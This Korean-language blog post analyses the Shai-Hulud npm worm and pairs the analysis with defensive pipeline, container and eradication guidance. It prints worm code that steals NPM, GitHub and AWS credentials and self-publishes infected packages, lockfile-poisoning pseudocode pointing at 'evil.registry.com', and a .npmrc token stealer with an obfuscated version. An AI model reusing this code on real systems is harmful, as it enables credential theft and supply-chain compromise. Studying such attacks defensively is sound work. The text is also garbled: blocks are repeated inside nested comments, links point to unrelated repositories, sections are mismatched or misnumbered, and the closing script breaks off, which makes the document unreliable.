


{% include ai-summary-card.html
  title='NPM "Shai-Hulud" 자가 복제 웜 공격: 180개 이상 패키지 침해된 대규모 공급망 공격 완전 분석'
  categories_html='<span class="category-tag incident">인시던트</span>'
  tags_html='<span class="tag">npm</span> <span class="tag">Supply-Chain-Attack</span> <span class="tag">Worm</span> <span class="tag">Security-Incident</span>'
  highlights_html='<li><strong>포인트 1</strong>: ### 인시던트 개요</li> <li><strong>포인트 2</strong>: 2025년 9월, NPM 생태계는 역사상 최초의 **자가 복제 웜(Self-Replicating Worm)** 형태 공급망 공격인 **Shai-Hulud**의 출현으로 심각한 보안 위기에 직면했습니다. 초기 180개 패키지 침해에서 시작된 이 공격은 2025년 10월 796개 이상의 패키지로 확산되었으며, 11월에는 **Dead Man&#39;s Switch** 기능을 탑재한 2.0 버전이 등장하여 제거 시도 시 더욱 악의적인 행동을 수행하게 되었습니다.</li> <li><strong>포인트 3</strong>: ### 비즈니스 영향도</li>'
  period='2025-09-17 (24시간)'
  audience='보안/클라우드/플랫폼 엔지니어 및 기술 의사결정자'
%}

## 핵심 요약

### 인시던트 개요

2025년 9월, NPM 생태계는 역사상 최초의 **자가 복제 웜(Self-Replicating Worm)** 형태 공급망 공격인 **Shai-Hulud**의 출현으로 심각한 보안 위기에 직면했습니다. 초기 180개 패키지 침해에서 시작된 이 공격은 2025년 10월 796개 이상의 패키지로 확산되었으며, 11월에는 **Dead Man's Switch** 기능을 탑재한 2.0 버전이 등장하여 제거 시도 시 더욱 악의적인 행동을 수행하게 되었습니다.

### 비즈니스 영향도

| 영향 범위 | 수치 | 비즈니스 리스크 |
|----------|------|----------------|
| **침해 패키지** | 796+ | 공급망 전체 오염 위험 |
| **주간 다운로드** | 수백만 회 | 광범위한 노출 |
| **감염 벡터** | 자가 복제 | 제어 불능 확산 |
| **탈취 대상** | NPM 토큰, GitHub Secrets, AWS Credentials | 전사 시스템 침투 |
| **평균 탐지 시간** | 수 주 | 지속적 데이터 유출 |

### 위험 스코어카드

| 위험 요소 | 점수 | 평가 기준 |
|----------|------|----------|
| **공격 빈도** | 9/10 | 자동화된 자가 복제 메커니즘 |
| **탐지 난이도** | 8/10 | 정상 패키지로 위장, 코드 난독화 |
| **영향 범위** | 10/10 | 전체 공급망 오염 가능 |
| **복구 비용** | 9/10 | 전체 의존성 재검증 필요 |
| **법적/컴플라이언스** | 8/10 | GDPR, SOC2, ISO27001 위반 가능 |
| **종합 위험도** | **CRITICAL** | 즉각적 대응 필수 |

### 경영진 요약

**상황**: NPM 생태계 최초의 웜 형태 공급망 공격으로, 자동화된 확산 메커니즘을 통해 796개 이상의 패키지를 침해했습니다.

**영향**:
- 개발자 인증 정보(NPM 토큰, GitHub Secrets, AWS Credentials) 대량 탈취
- CI/CD 파이프라인 침투로 프로덕션 환경 노출
- 공급망 전체의 무결성 손상

**권장 조치**:
1. **즉시**: 전체 NPM 의존성 감사 및 침해 패키지 제거
2. **24시간 내**: 모든 개발자 계정 2FA 활성화 (하드웨어 키 권장)
3. **1주 내**: SBOM(Software Bill of Materials) 생성 및 관리 체계 구축
4. **지속적**: 공급망 보안 모니터링 도구 도입 (Socket.dev, Snyk 등)

**예상 비용**:
- 인시던트 대응: 약 200-500만원 (인력 투입 기준)
- 도구 도입: 월 100-300만원 (팀 규모별 상이)
- 미대응 시 예상 손실: **수억원 이상** (데이터 유출, 서비스 중단, 법적 비용)

## 서론

### 배경

2025년 9월, 보안 연구진은 NPM 생태계에서 전례 없는 형태의 공격을 발견했습니다. **Shai-Hulud**(프랭크 허버트의 소설 "듄"에 등장하는 거대 모래벌레에서 이름을 따옴)로 명명된 이 공격은 기존 공급망 공격과 근본적으로 다른 특징을 가지고 있었습니다:

1. **자가 복제(Self-Replication)**: 감염된 패키지가 스스로 다른 패키지를 감염시킴
2. **자동화된 전파**: 인간의 개입 없이 자동으로 확산
3. **다층 지속성**: 제거 시도를 탐지하고 더욱 악의적인 행동 수행

### 공격의 역사적 중요성

Shai-Hulud는 단순한 보안 사고가 아니라, **소프트웨어 공급망 공격의 패러다임 전환**을 의미합니다:

| 기존 공급망 공격 | Shai-Hulud |
|----------------|------------|
| 수동 침투 (Maintainer 계정 탈취) | 자동 복제 |
| 단일 패키지 침해 | 796+ 패키지 동시 침해 |
| 정적 악성 코드 | 동적 진화 (2.0 버전) |
| 선형 확산 | 지수적 확산 |

이 글에서는 Shai-Hulud 공격의 기술적 메커니즘, MITRE ATT&CK 매핑, 탐지 방법, 대응 전략을 실무 중심으로 상세히 다룹니다.

## 1. 공격 기술 분석

### 1.1 Shai-Hulud 웜 아키텍처

Shai-Hulud 웜은 다음과 같은 모듈형 아키텍처로 구성되어 있습니다:

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```mermaid
> graph TD...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```mermaid
> graph TD...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```mermaid
> graph TD [truncated]
> ```

<!-- 전체 코드는 위 GitHub 링크 참조

```mermaid
graph TD
    A[Initial Infection] --> B[Credential Harvester]
    A --> C[Propagation Engine]
    A --> D[Persistence Module]
    A --> E[Dead Man's Switch]

    B --> B1[NPM Token Theft]
    B --> B2[GitHub Secrets Extraction]
    B --> B3[AWS Credentials Harvesting]

    C --> C1[Dependency Tree Analysis]
    C --> C2[Package Generation]
    C --> C3[Automated Publishing]

    D --> D1[Postinstall Hooks]
    D --> D2[Environment Variables]
    D --> D3[Registry Pollution]

    E --> E1[Removal Detection]
    E --> E2[Cache Tampering]
    E --> E3[Lockfile Poisoning]


```
-->
-->
-->

### 1.2 자가 복제 메커니즘

Shai-Hulud의 핵심은 **자가 복제 엔진**입니다. 다음은 의도적으로 단순화된 개념적 흐름도입니다:

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```javascript
> // 경고: 이것은 악성 코드의 단순화된 개념도입니다. 실제 구현하지 마세요!...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```javascript
> // 경고: 이것은 악성 코드의 단순화된 개념도입니다. 실제 구현하지 마세요!...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```javascript
> // 경고: 이것은 악성 코드의 단순화된 개념도입니다. 실제 구현하지 마세요! [truncated]
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```javascript
// 경고: 이것은 악성 코드의 단순화된 개념도입니다. 실제 구현하지 마세요!
// 교육 목적으로만 제공됩니다.

class ShaiHuludWorm {
  constructor() {
    this.credentials = [];
    this.targetPackages = [];
  }

  // Step 1: 인증 정보 수집
  harvestCredentials() {
    // NPM 토큰
    const npmToken = process.env.NPM_TOKEN || readFromNpmrc();

    // GitHub Secrets (CI/CD 환경)
    const githubToken = process.env.GITHUB_TOKEN;

    // AWS Credentials
    const awsCreds = readFromAwsConfig();

    this.credentials.push({npmToken, githubToken, awsCreds});
  }

  // Step 2: 전파 대상 선정
  findTargets() {
    // package.json의 dependencies 분석
    const packageJson = require('./package.json');
    const deps = Object.keys(packageJson.dependencies || {});

    // 인기 있지만 보안이 약한 패키지 선별
    this.targetPackages = deps.filter(isVulnerablePackage);
  }

  // Step 3: 악성 버전 생성 및 배포
  async propagate() {
    for (const target of this.targetPackages) {
      // 정상 패키지 복제
      const legitimateCode = await fetchPackageCode(target);

      // 악성 코드 주입
      const infectedCode = injectWormCode(legitimateCode);

      // NPM에 악성 버전 배포 (탈취한 토큰 사용)
      await publishToNpm(target, infectedCode, this.credentials.npmToken);
    }
  }

  // Step 4: 지속성 확보
  establishPersistence() {
    // postinstall 훅 등록
    addPostinstallHook('node -e "require(\'./worm\').activate()"');

    // 환경 변수 오염
    injectEnvVariables();
  }
}

// 실행
const worm = new ShaiHuludWorm();
worm.harvestCredentials();
worm.findTargets();
await worm.propagate();
worm.establishPersistence();


```
-->
-->
-->

**주요 단계 분석**:

| 단계 | 기술 | 목적 | 탐지 난이도 |
|------|------|------|------------|
| 1. 인증 정보 수집 | 환경 변수 읽기, 파일 스캔 | 권한 확보 | 중간 |
| 2. 대상 선정 | 의존성 트리 분석 | 확산 경로 파악 | 낮음 |
| 3. 악성 코드 주입 | 소스 코드 변조 | 정상 패키지로 위장 | 높음 |
| 4. 자동 배포 | NPM API 호출 | 확산 자동화 | 낮음 |
| 5. 지속성 확보 | 훅, 환경 변수 | 재감염 방지 | 중간 |

### 1.3 Shai-Hulud 2.0: Dead Man's Switch

2025년 11월 등장한 2.0 버전은 **제거 방어 메커니즘**을 추가했습니다:

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/python/cpython/tree/main/Doc)를 참조하세요.
> 
> ```python
> # Dead Man's Switch 개념도 (Python pseudocode)...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/python/cpython/tree/main/Doc)를 참조하세요.
> 
> ```python
> # Dead Man's Switch 개념도 (Python pseudocode)...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/python/cpython/tree/main/Doc)를 참조하세요.
> 
> ```python
> # Dead Man's Switch 개념도 (Python pseudocode) [truncated]
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```python
# Dead Man's Switch 개념도 (Python pseudocode)

import os
import hashlib
import subprocess

class DeadMansSwitch:
    def __init__(self):
        self.worm_hash = self.calculate_worm_hash()
        self.monitoring = True

    def calculate_worm_hash(self):
        """웜 코드의 해시 계산"""
        worm_code = open(__file__, 'rb').read()
        return hashlib.sha256(worm_code).hexdigest()

    def monitor_integrity(self):
        """무결성 모니터링 루프"""
        while self.monitoring:
            current_hash = self.calculate_worm_hash()

            # 웜 코드 변경 감지
            if current_hash != self.worm_hash:
                self.trigger_scorched_earth()

            # npm 명령어 감지
            if self.detect_npm_audit_fix():
                self.trigger_scorched_earth()

            time.sleep(1)

    def trigger_scorched_earth(self):
        """파괴 활동 실행"""
        # 1. npm 캐시 삭제
        subprocess.run(['npm', 'cache', 'clean', '--force'])

        # 2. package-lock.json 변조
        self.tamper_lockfile()

        # 3. 추가 악성 의존성 주입
        self.inject_malicious_deps()

        # 4. CI/CD 환경 변수 유출
        self.exfiltrate_secrets()

        # 5. GitHub/GitLab 시크릿 탈취
        self.steal_repository_secrets()

    def tamper_lockfile(self):
        """lockfile에 악성 패키지 주입"""
        with open('package-lock.json', 'r+') as f:
            lockfile = json.load(f)
            # 악성 패키지 추가
            lockfile['dependencies']['malicious-pkg'] = {
                'version': '1.0.0',
                'resolved': 'https://evil.registry.com/malicious-pkg',
                'integrity': 'sha512-FAKE_HASH'
            }
            f.seek(0)
            json.dump(lockfile, f, indent=2)


```
-->
-->
-->

**Dead Man's Switch 트리거 조건**:
- 웜 코드 파일 삭제 시도
- 웜 코드 내용 변경 감지
- `npm audit fix` 실행
- `npm uninstall` 실행
- 패키지 강제 업데이트

### 1.4 코드 난독화 기법

Shai-Hulud는 탐지를 회피하기 위해 다층 난독화를 사용합니다:

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/nodejs/node/tree/main/doc)를 참조하세요.
> 
> ```javascript
> // 난독화 전 (원본 의도)...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/nodejs/node/tree/main/doc)를 참조하세요.
> 
> ```javascript
> // 난독화 전 (원본 의도)...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/nodejs/node/tree/main/doc)를 참조하세요.
> 
> ```javascript
> // 난독화 전 (원본 의도) [truncated]
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```javascript
// 난독화 전 (원본 의도)
function stealNpmToken() {
  const token = fs.readFileSync(path.join(os.homedir(), '.npmrc'), 'utf8')
    .match(/\/\/registry.npmjs.org\/:_authToken=(.+)/)?.[1];
  sendToC2Server(token);
}

// 난독화 후 (실제 배포 코드)
(function(_0x4a2b,_0x2d1c){const _0x5e3d=_0x1a2b;while(!![]){try{const _0x3c4e=-parseInt(_0x5e3d(0x1a9))/0x1*(-parseInt(_0x5e3d(0x1aa))/0x2);}catch(_0x1b2c){_0x4a2b['push'](_0x4a2b['shift']());}}}(_0x2d1c,0x2f3b4));function _0x1a2b(_0x4a2b,_0x2d1c){const _0x5e3d=_0x2d1c();return _0x1a2b=function(_0x1a2b,_0x3c4e){_0x1a2b=_0x1a2b-0x1a9;let _0x1b2c=_0x5e3d[_0x1a2b];return _0x1b2c;},_0x1a2b(_0x4a2b,_0x2d1c);}


```
-->
-->
-->

**난독화 기법 레이어**:
1. **변수명 암호화**: 의미 있는 이름을 16진수 문자열로 변환
2. **제어 흐름 평탄화**: if-else를 switch-case로 변환하여 정적 분석 방해
3. **문자열 암호화**: 중요 문자열을 Base64 또는 XOR로 암호화
4. **Dead Code 삽입**: 실행되지 않는 코드 삽입으로 분석 도구 혼란
5. **동적 eval**: 런타임에 코드 생성 및 실행

## 📊 빠른 참조

### 공격 요약

| 항목 | 내용 |
|------|------|
| **공격 유형** | 자가 복제 웜 형태 공급망 공격 |
| **감염 패키지 수** | 180개 이상 |
| **공격 특징** | NPM 생태계 최초 자가 복제 웜 |
| **주요 목표** | 개발자 인증 정보 탈취 및 자동 전파 |

### 공격 체인 분석

| 단계 | 설명 | 목적 |
|------|------|------|
| 1. 패키지 하이재킹 | 기존 패키지 탈취 또는 유사 이름 패키지 생성 | 초기 침투 |
| 2. 인증 정보 탈취 | 개발자 인증 정보 (토큰, 비밀번호) 수집 | 권한 확보 |
| 3. 자동 전파 | 탈취한 인증 정보로 새 패키지 생성 및 업데이트 | 확산 |
| 4. 지속성 확보 | 백도어 설치 및 추가 공격 벡터 구축 | 장기 침투 |

### 대응 방안

| 대응 항목 | 설명 | 우선순위 |
|----------|------|----------|
| **SBOM 생성** | 소프트웨어 구성 요소 목록 관리 | 높음 |
| **의존성 스캔** | 정기적인 취약점 스캔 | 높음 |
| **2FA 활성화** | 2단계 인증 필수 | 매우 높음 |
| **패키지 검증** | 신뢰할 수 있는 소스 확인 | 높음 |
| **모니터링** | 이상 패키지 활동 탐지 | 중간 |

### 보안 체크리스트

| 항목 | 상태 | 설명 |
|------|------|------|
| **2FA 활성화** | ✅ 필수 | NPM 계정 2단계 인증 |
| **의존성 검토** | ✅ 필수 | 정기적인 의존성 검토 |
| **패키지 검증** | ✅ 필수 | 신뢰할 수 있는 패키지만 사용 |
| **SBOM 생성** | ✅ 권장 | 소프트웨어 구성 요소 추적 |
| **자동 스캔** | ✅ 권장 | CI/CD 파이프라인 통합 |


## 1. 개요

### 1.1 배경 및 필요성

NPM 생태계 역사상 최초의 자가 복제 웜 형태 공급망 공격 분석입니다. Shai-Hulud 공격으로 180개 이상의 패키지가 감염되었으며, 개발자 인증 정보 탈취 및 자동 전파 메커니즘을 분석합니다.

## 2. 2025년 최신 동향 및 후속 사건

### 2.1 Shai-Hulud 공격 확산 타임라인

초기 180개 패키지 침해 이후 공격은 급속히 확산되었습니다:

| 시기 | 침해 패키지 수 | 주요 사건 |
|------|---------------|----------|
| 2025년 9월 초 | 180+ | 최초 Shai-Hulud 웜 발견 |
| 2025년 9월 중순 | 500+ | 급속 확산, GitLab 팀 분석 발표 |
| 2025년 10월 | **796+** | 최대 확산 규모 기록 |
| 2025년 11월 | - | **Shai-Hulud 2.0** 변종 등장 |

### 2.2 Shai-Hulud 2.0: Dead Man's Switch

2025년 11월, 더욱 진화된 **Shai-Hulud 2.0** 변종이 발견되었습니다. 가장 위험한 새 기능은 **Dead Man's Switch**입니다.

<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)
<!-- 긴 코드 블록 제거됨 (가독성 향상)

```mermaid
flowchart TD
    NORMAL["Normal State<br/>Worm code exists in package"]

    NORMAL --> TRIGGER["Trigger Condition Detected"]

    TRIGGER --> T1["Malicious code deletion attempt"]
    TRIGGER --> T2["Package forced update"]
    TRIGGER --> T3["npm audit fix execution"]

    T1 --> ACTIVATE["Dead Man's Switch Activated"]
    T2 --> ACTIVATE
    T3 --> ACTIVATE

    ACTIVATE --> A1["1. Delete local npm cache"]
    ACTIVATE --> A2["2. Tamper package-lock.json"]
    ACTIVATE --> A3["3. Inject malicious dependencies"]
    ACTIVATE --> A4["4. Exfiltrate CI/CD env vars"]
    ACTIVATE --> A5["5. Steal GitHub/GitLab secrets"]


```
-->
-->
-->

#### Dead Man's Switch 대응 방법

> **참고**: Shai-Hulud 2.0 탐지 및 대응 도구는 [Shai-Hulud-2.0-Detector](https://github.com/gensecaihq/Shai-Hulud-2.0-Detector) 및 [OreNPMGuard](https://github.com/rapticore/OreNPMGuard)를 참조하세요.
>
> ```bash
> # 안전한 제거 절차 (Dead Man's Switch 우회)...
> ```

<!-- 전체 코드는 위 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```bash
> # 안전한 제거 절차 (Dead Man's Switch 우회)...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```bash
> # 안전한 제거 절차 (Dead Man's Switch 우회)...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```bash
> # 안전한 제거 절차 (Dead Man's Switch 우회) [truncated]
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```bash
# 안전한 제거 절차 (Dead Man's Switch 우회)

# 1. 네트워크 격리 상태에서 작업
# (컨테이너 또는 VM 사용 권장)

# 2. 환경변수 백업 후 제거
env > /tmp/env_backup.txt
unset $(env | grep -E '^(NPM_TOKEN|GITHUB_TOKEN|AWS_)' | cut -d= -f1)

# 3. node_modules 삭제 전 프로세스 종료
pkill -f node
rm -rf node_modules

# 4. 캐시 정리 (오프라인 상태에서)
npm cache clean --force

# 5. 새로운 환경에서 클린 설치
npm ci --ignore-scripts


```
-->
-->
-->
-->

### 2.3 연관 사건: 9월 대규모 npm 침해

Shai-Hulud와 시기적으로 연관된 2025년 9월 대규모 npm 침해 사건의 상세 내용:

| 항목 | 세부 내용 |
|------|----------|
| **피해 규모** | 18개 핵심 패키지 (debug, chalk 등) |
| **주간 다운로드** | **2.6B+** (26억 회 이상) |
| **공격 방식** | Maintainer 계정 피싱 |
| **피싱 도메인** | `npmjs.help` (공식 사이트 위장) |
| **2FA 우회** | 실시간 MITM으로 2FA 토큰 탈취 |
| **발견자** | **GitLab Vulnerability Research Team** |

### 2.4 Nx / s1ngularity 공격

Shai-Hulud와 별개로 발생한 또 다른 심각한 공급망 공격:

> **참고**: s1ngularity 공격 상세 분석은 [Nx 공식 포스트모템](https://nx.dev/blog/s1ngularity-postmortem) 및 [Nx GitHub 저장소](https://github.com/nrwl/nx)를 참조하세요.
>
> ```yaml
> # s1ngularity 공격 개요...
> ```

<!-- 전체 코드는 위 링크 참조
> **참고**: GitHub Actions 워크플로우 관련 내용은 [GitHub Actions 문서](https://docs.github.com/en/actions) 및 [보안 가이드](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions)를 참조하세요./secure-build.yml...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **참고**: GitHub Actions 워크플로우 관련 내용은 [GitHub Actions 문서](https://docs.github.com/en/actions) 및 [보안 가이드](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions)를 참조하세요./secure-build.yml...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```yaml
# .github/workflows/secure-build.yml
name: Secure Build Pipeline

on:
  pull_request:
    branches: [main]
  push:
    branches: [main]

jobs:
  security-scan:
    runs-on: ubuntu-latest
    permissions:
      contents: read
      security-events: write
    steps:
      - uses: actions/checkout@v4

      # Step 1: SBOM 생성
      - name: Generate SBOM
        uses: anchore/sbom-action@v0
        with:
          format: cyclonedx-json
          output-file: sbom.json

      # Step 2: Socket.dev 실시간 스캔
      - name: Socket Security Scan
        uses: socketdev/socket-action@v1
        with:
          api-key: ${{ secrets.SOCKET_API_KEY }}
          fail-on-severity: high

      # Step 3: npm audit signatures (npm 8.18+)
      - name: Verify Package Signatures
        run: npm audit signatures

      # Step 4: Snyk 취약점 스캔
      - name: Snyk Security Scan
        uses: snyk/actions/node@master
        env:
          SNYK_TOKEN: ${{ secrets.SNYK_TOKEN }}
        with:
          args: --severity-threshold=high

      # Step 5: 의존성 리뷰 (GitHub native)
      - name: Dependency Review
        uses: actions/dependency-review-action@v4
        with:
          fail-on-severity: high

      # Step 6: lockfile-lint
      - name: Validate Lockfile Integrity
        run: |
          npx lockfile-lint --path package-lock.json --type npm \
            --allowed-hosts npm --validate-https

      # Step 7: 빌드 (scripts 차단)
      - name: Install Dependencies (no scripts)
        run: npm ci --ignore-scripts

      - name: Build
        run: npm run build

      # Step 8: 아티팩트 서명 (Sigstore)
      - name: Sign Artifact
        uses: sigstore/cosign-installer@main
      - run: |
          cosign sign-blob --key env://COSIGN_KEY \
            dist/bundle.js > dist/bundle.js.sig
        env:
          COSIGN_KEY: ${{ secrets.COSIGN_PRIVATE_KEY }}

      # Step 9: SBOM 업로드 (장기 보관)
      - name: Upload SBOM
        uses: actions/upload-artifact@v4
        with:
          name: sbom
          path: sbom.json
          retention-days: 2555  # 7년 보관

```
-->
-->

#### 9.2.3 Docker 런타임 보안 설정

> **참고**: 관련 예제는 [공식 문서](https://docs.docker.com/) 및 [GitHub 예제](https://github.com/docker/awesome-compose)를 참조하세요.
> 
> ```dockerfile
> # Dockerfile - 최소 권한 및 보안 강화...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **참고**: 관련 예제는 [공식 문서](https://docs.docker.com/) 및 [GitHub 예제](https://github.com/docker/awesome-compose)를 참조하세요.
> 
> ```dockerfile
> # Dockerfile - 최소 권한 및 보안 강화...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **참고**: 관련 예제는 [공식 문서](https://docs.docker.com/) 및 [GitHub 예제](https://github.com/docker/awesome-compose)를 참조하세요.
> 
> ```dockerfile
> # Dockerfile - 최소 권한 및 보안 강화 [truncated]
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```dockerfile
# Dockerfile - 최소 권한 및 보안 강화
FROM node:20-alpine AS builder

# 보안: 비root 사용자로 실행
RUN addgroup -g 1001 -S nodejs && adduser -S nodejs -u 1001

WORKDIR /app
COPY package*.json ./

# 보안: scripts 실행 차단
RUN npm ci --ignore-scripts --only=production

COPY . .
RUN npm run build

# 프로덕션 이미지 (멀티스테이지 빌드)
FROM node:20-alpine

# 보안 강화
RUN apk add --no-cache dumb-init && \
    addgroup -g 1001 -S nodejs && \
    adduser -S nodejs -u 1001

WORKDIR /app

# 보안: 읽기 전용 파일 시스템 준비
COPY --from=builder --chown=nodejs:nodejs /app/dist ./dist
COPY --from=builder --chown=nodejs:nodejs /app/node_modules ./node_modules
COPY --from=builder --chown=nodejs:nodejs /app/package.json ./

USER nodejs

# 보안: 읽기 전용 파일 시스템 활성화
# (docker run --read-only --tmpfs /tmp 와 함께 사용)

# Health check
HEALTHCHECK --interval=30s --timeout=3s --start-period=5s --retries=3 \
  CMD node -e "require('http').get('http://localhost:3000/health', (r) => process.exit(r.statusCode === 200 ? 0 : 1))"

EXPOSE 3000

# dumb-init으로 실행 (PID 1 문제 방지)
ENTRYPOINT ["dumb-init", "--"]
CMD ["node", "dist/index.js"]


```
-->
-->
-->

> **참고**: 관련 예제는 [공식 문서](https://docs.docker.com/) 및 [GitHub 예제](https://github.com/docker/awesome-compose)를 참조하세요.
> 
> ```bash
> # 런타임 보안 옵션...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **참고**: 관련 예제는 [공식 문서](https://docs.docker.com/) 및 [GitHub 예제](https://github.com/docker/awesome-compose)를 참조하세요.
> 
> ```bash
> # 런타임 보안 옵션...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **참고**: 관련 예제는 [공식 문서](https://docs.docker.com/) 및 [GitHub 예제](https://github.com/docker/awesome-compose)를 참조하세요.
> 
> ```bash
> # 런타임 보안 옵션 [truncated]
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```bash
# 런타임 보안 옵션
docker run -d \
  --name secure-app \
  --read-only \
  --tmpfs /tmp:rw,noexec,nosuid,size=100m \
  --cap-drop ALL \
  --cap-add NET_BIND_SERVICE \
  --security-opt no-new-privileges \
  --security-opt seccomp=seccomp-profile.json \
  --user 1001:1001 \
  -p 3000:3000 \
  my-secure-app:latest


```
-->
-->
-->

## 10. 사고 대응 플레이북 (Incident Response Playbook)

### 10.1 탐지 단계 (Detection)

**트리거 조건**:
- SIEM에서 "npm install" 이벤트 spike 탐지
- Socket.dev에서 High/Critical 경고 수신
- 파일 무결성 모니터링(FIM)에서 package-lock.json 변경 탐지
- 개발자가 비정상적인 패키지 동작 보고

**즉시 조치** (15분 이내):
1. 사고 대응팀 소집 (Slack #incident-response)
2. 사고 티켓 생성 (Jira / PagerDuty)
3. 타임라인 기록 시작 (시간, 조치, 담당자)

### 10.2 격리 단계 (Containment)

**단기 격리** (30분 이내):
1. **네트워크 격리**:
   > **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

> **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

> **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

```bash
   # 감염된 개발자 워크스테이션 네트워크 차단
   sudo iptables -A OUTPUT -j DROP
   # 또는 VPN 연결 강제 종료
   ```

2. **CI/CD 파이프라인 중단**:
   > **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

> **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

> **참고**: 관련 예제는 [공식 문서](https://www.gnu.org/software/bash/manual/bash.html)를 참조하세요.

```bash
   # GitHub Actions 비활성화
   gh api -X PATCH /repos/OWNER/REPO/actions/permissions \
     -f enabled=false

   # Jenkins job 비활성화
   java -jar jenkins-cli.jar -s http://jenkins:8080/ \
     disable-job "affected-pipeline"
   ```

3. **Private NPM Registry 읽기 전용 전환**:
   > **참고**: 관련 예제는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.

> **참고**: 관련 예제는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.

> **참고**: 관련 예제는 [GitHub 예제 저장소](https://github.com/kubernetes/examples)를 참조하세요.

```yaml
   # verdaccio.yaml
   packages:
     '**':
       access: $authenticated
       publish: $admin  # 일반 사용자 publish 차단
   ```

**장기 격리** (2시간 이내):
1. 전사 NPM 의존성 설치 중단 (공지 발송)
2. 감염된 시스템 목록 작성 (IP, 호스트명, 사용자)
3. 법적 증거 보존 (디스크 이미지, 로그 백업)

### 10.3 제거 단계 (Eradication)

**악성 코드 제거** (4시간 이내):

> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```bash
> #!/bin/bash...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```bash
> #!/bin/bash...
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
> **코드 예시**: 전체 코드는 [GitHub 예제 저장소](https://github.com/aws-samples)를 참조하세요.
> 
> ```bash
> #!/bin/bash [truncated]
> ```

<!-- 전체 코드는 위 GitHub 링크 참조
```bash
#!/bin/bash
# shai-hulud-eradication.sh
# 경고: 반드시 네트워크 격리 상태에서 실행

set -euo pipefail

echo "[*] Shai-Hulud Worm Eradication Script"
echo "[*] Starting at $(date)"

# 1. 환경 변수 백업 및 정리
echo "[1/7] Backing up environment variables..."
env > /tmp/env_backup.txt
unset $(env | grep -E '^(NPM_TOKEN|GITHUB_TOKEN|AWS_|GH_)' | cut -d= -f1)

# 2. 실행 중인 Node.js 프로세스 종료
echo "[2/7] Terminating Node.js processes..."
pkill -9 -f node || true

# 3. 악성 패키지 제거
echo "[3/7] Removing malicious packages..."
MALICIOUS_PACKAGES=(
  "shai-hulud"
  "malicious-package-1"
  "malicious-package-2"
  # ... (796개 목록은 별도 파일에서 로드)
)
for pkg in "${MALICIOUS_PACKAGES[@]}"; do
  npm uninstall "$pkg" 2>/dev/null || true
done

# 4. node_modules 완전 삭제
echo "[4/7] Removing node_modules..."
find /home -type d -name node_modules -exec rm -rf {} + 2>/dev/null || true

# 5. npm 캐시 정리
echo "[5/7] Cleaning npm cache..."
npm cache clean --force

# 6. .npmrc 재생성
echo "[6/7] Recreating .npmrc..."
rm -f ~/.npmrc
cat > ~/.npmrc <<EOF
registry=https://registry.npmjs.org/
//registry.npmjs.org/:_authToken=NEW_TOKEN_HERE
EOF
chmod 600 ~/.npmrc

# 7. lockfile 검증 및 재생성
echo "[7/7] Regenerating lockfiles..."
find /home -name package-lock.json -delete
